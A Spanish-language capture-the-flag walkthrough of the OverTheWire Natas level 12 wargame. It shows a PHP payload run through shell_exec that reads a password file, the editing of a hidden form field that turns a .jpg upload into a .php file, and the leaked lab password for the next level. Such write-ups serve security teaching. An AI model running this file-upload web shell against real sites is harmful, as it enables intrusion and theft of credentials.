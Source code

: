 ```yaml
---
title: Natas-12
published: true
---
```


```
Url del reto: http://natas12.natas.labs.overthewire.org/index.php
login:natas12
 pass:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

En este reto, hay que subir una imagen.jpg. Podemos subir un fichero en php y ejecutar código de este. Creamos el siguiente código

```
<?php $output = shell_exec('cat /etc/natas_webpass/natas13'); var_dump($output); ?>
```

Si subimos la imagen el fichero php, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en php, modificamos en el formulario, el campo value.

```html

<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="7ww5l8io7z.jpg" /> <!-- modificamos la extension a 7ww5l8io7z.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir el fichero php:

```html
body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/7ww5l8io7z.php">upload/7ww5l8io7z.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido el fichero en formato php, si hacemos clic en el enlace interpretará el fichero php.

```
string(33) "jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY " 
```

```    
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

[Volver al archivo](archive)
